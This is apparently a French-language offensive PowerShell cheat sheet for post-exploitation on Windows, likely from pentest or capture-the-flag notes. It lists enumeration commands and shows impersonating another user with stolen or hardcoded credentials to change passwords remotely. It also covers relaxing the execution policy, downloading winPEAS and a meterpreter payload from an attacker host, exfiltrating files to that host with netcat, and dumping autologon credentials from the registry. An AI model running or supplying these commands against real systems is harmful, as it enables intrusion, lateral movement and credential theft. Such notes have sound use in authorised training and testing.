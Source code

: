 # Powershell

> Tips et commandes lorsque l'on a une invite de commande powershell.



### 1. Enumération

- Lister les fichiers cachés :

  ```powershell
  ls -Fo
  ```

- Lister ses privilèges / groupes / utilisateur :

  ```powershell
  whoami /all
  ```

- Liste des administrateurs locaux :

  ```powershell
  net localgroup administrators
  ```

- Liste des sessions powershell actives et disponibles :

  ```powershell
  get-pssession -computername <NOM_PC>
  ```

- Lister les utilisateurs du domaine / savoir si la machine est reliée à un AD :

  ```powershell
  net user /domain
  ```

- Equivalent de GREP et FIND :

  ```powershell
  # Trouver tous les fichiers JSON sur une machine
  Get-ChildItem -Path "C:\Windows\*.json" -Recure
  
  # Faire des greps sur les fichiers txt d'une machine
  Get-ChildItem -Path "D:\Script\*.txt" -Recurse | Select-String -Pattern 'PATTERN'
  
  # Avec exclusion des fichiers de merde
  Get-Childitem –Path 'C:\program files'  -Exclude *.JPG,*.MP3,*.TMP, *.DLL -File -Recurse -ErrorAction SilentlyContinue

- Regarder si le service de spool est activé pour l'attaque `Print-nightmare` :

  ```powershell
  Get-Service -Name Spooler
  ```

- Récupérer les informations réseaux (IP, passerelle, ...) :

  ```powershell
  ipconfig
  ```

- Connaitre l'architecture de la machine :

  ```powershell
  powershell.exe -c "[Environment]::Is64BitProcess"
  # True ou False
  ```

  

### 2. Exécution de commandes

> Exécuter des commandes avec les droits d'un autre utilisateur que soi
>
> Objectifs : multiples, changer le mot de passe d'un autre utilisateur par exemple
>
> https://blog.atwork.at/post/Run-PowerShell-script-as-different-user
>
> https://www.thehacker.recipes/ad/movement/credentials/impersonation

- Première partie, setup les identifiants dans des variables :

  ```powershell
  # Première méthode
  # Récupération d'un mot de passe "secure" ($mp)
  $username = '<USER>'
  # Création d'un objet contenant les identifiants de l'utilisateur qu'on cherche à se faire passer pour
  $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $mp.SecureCurrentPassword
  
  # Deuxième méthode, sous condition d'avoir un prompt powershell
  # https://cheats.philkeeble.com/active-directory/lateral-movement#psremoting
  $cred = Get-Credential Domain\Username
  
  # 3ème méthode, en ayant le mot de passe en clair
  $passwd=ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
  $cred=New-Object System.Management.Automation.PSCredential("acute\imonks", $passwd)
  ```

- Deuxième partie, exécuter des commandes locales, avec les identifiants créés :

  ```powershell
  # Exemple : Changement du mot de passe d'un autre utilisateur en utilisant les droits de l'utilisateur "volé"
  # -ComputerName : le PC sur lequel on veut exécuter une commande
  # -ConfigurationName : les restrictions associées à la session si 
  Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {net user <DOMAIN_USER> <NEW_PASSWORD>} -ConfigurationName dc_manage
  
  # Pas obligé d'avoir setup les credentials, un prompt les demandes
  Invoke-command -Credential $cred -computername x -scriptblock {whoami}
  ```



### 3. Politique d'exécution .ps1

> Consulter et modifier la politique d'exécution pour autoriser l'exécution d'un ps1 non signé par Microsoft

```cmd
Get-ExecutionPolicy
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```



### 4. Utilitaires

- Upload un fichier sur la machine cible :

  ```powershell
  # Certutil
  certutil.exe -urlcache -f "http://10.10.16.6:8000/winPEASx86.exe" winPEASx86.exe
  
  # Webclient
  $WebClient = New-Object System.Net.WebClient
  $WebClient.DownloadFile("http://<IP_HOTE>:5655/meterpreter.exe","C:\windows\temp\meterpreter.exe")
  ```

- Télécharger un fichier présent sur la cible Windows vers son hôte Linux :

  ```powershell
  # Uploader auparavant un binaire nc64.exe (ou 32 selon l'architecture)
  cat .\res.txt | .\nc64.exe <IP_HOTE> 5655
  ```

- Remplacer du contenu d'un fichier par un autre :

  ```powershell
  (Get-Content -Path C:\Users\<FICHIER>) -replace '<CHAINE_A_REMPLACER>','NOUVELLE_CHAINE' | Set-Content -Path C:\Users\<FICHIER>)
  ```

- Lire une clé de registre : 

  ```powershell
  # Changer la clé de registre bien entendu
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
  
  # Autre manière, ici de dump les identifiants pouvant être présents via autologon
  Get-ItemProperty -path 'HKLM:\software\microsoft\windows nt\currentversion\winlogon'
  ```
